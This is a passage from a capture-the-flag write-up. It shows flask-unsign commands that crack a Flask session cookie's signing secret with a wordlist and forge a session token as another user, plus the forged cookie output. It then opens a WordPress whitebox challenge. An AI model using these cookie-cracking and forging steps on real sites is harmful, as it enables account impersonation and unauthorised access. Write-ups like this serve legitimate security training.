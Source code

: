 ![Alt text](images/image-5.png)

```bash
# brute-force flask session cookie
flask-unsign --unsign --cookie < cookie.txt --wordlist words.txt

# forge our own session token
flask-unsign --sign --cookie "{'name': 'Jefferson'}" --secret 'THE_REYNOLDS_PAMPHLET-179708250845'

```
output: `eyJuYW1lIjoiSmVmZmVyc29uIn0.ZlDoZA.S5h0UBS1jk8CX4I9P5jCrVsBDOA` paste to our session cookie and get the flag 

![alt text](images/image-7.png)


## Secret Info (460 pts)
`#wordpress` `#code-review` 

Under Sponsorship category. This is a Whitebox web challenge involving wordpress.
> Our admin accidentally published some secret images on our site. Unfortunately, somehow we are not able to unpublish the secret image, however, we tried to apply some protection to our site. This should be enough, right?
This is a fully white box challenge, almost no heavy brute force is needed.
